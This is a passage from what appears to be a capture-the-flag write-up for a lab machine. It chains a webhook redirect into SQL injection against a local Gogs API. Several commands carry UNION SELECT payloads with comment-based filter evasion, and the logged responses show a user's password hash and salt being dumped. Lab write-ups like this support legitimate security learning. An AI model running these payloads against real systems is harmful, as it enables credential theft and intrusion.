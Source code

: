 ```bash

Body:
{"webhookUrl":"http:\/\/10.10.14.20:8888\/","monitoredUrl":"http:\/\/10.10.14.20\/","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.5","Date":"Tue, 23 Aug 2022 14:57:01 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/null,null,(select\/**\/name\/**\/from\/**\/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--\/**\/-","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"170"}}

10.129.9.180 - - [23/Aug/2022 16:57:01] "POST / HTTP/1.1" 200 -
```

Testing more password and pass both returns `"health":"down"`, but **passwd** returns a hash! 
```bash
➜  health python3 redirect.py 80 "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/null,null,(select/**/passwd/**/from/**/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--/**/-"
10.129.9.180 - - [23/Aug/2022 16:59:01] "GET / HTTP/1.0" 302 -

## Response
Body:
{"webhookUrl":"http:\/\/10.10.14.20:8888\/","monitoredUrl":"http:\/\/10.10.14.20\/","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.5","Date":"Tue, 23 Aug 2022 14:59:01 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/null,null,(select\/**\/passwd\/**\/from\/**\/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--\/**\/-","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"263"}}

10.129.9.180 - - [23/Aug/2022 16:59:01] "POST / HTTP/1.1" 200 -
```

The extracted hash is very long and I don't recognize it, and using `hash-identifier` we get the response **Not Found**.
Reading a bit about Gogs password hash I find this [blog post](https://blog.stigok.com/2017/03/06/lost-password-to-gogs-git-server-docker-instance.html) where a user locked himself out of Gogs trying to create a new hash. Here we find that a **salt** is needed and we should be able to extract it the same way we did with passwd. Unfortunately this blog post doesn't succeed in replicating the hash, so we need to dig deeper for that.

```bash
➜  health python3 redirect.py 80 "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/null,null,(select/**/passwd/**/from/**/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--/**/-"
10.129.9.180 - - [24/Aug/2022 08:46:01] "GET / HTTP/1.0" 302 -


## Response
Body:
{"webhookUrl":"http:\/\/10.10.14.20:8888\/","monitoredUrl":"http:\/\/10.10.14.20\/","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"sO3XIbeW14\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.5","Date":"Wed, 24 Aug 2022 06:45:01 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/null,null,(select\/**\/salt\/**\/from\/**\/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null--\/**\/-","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"173"}}
```
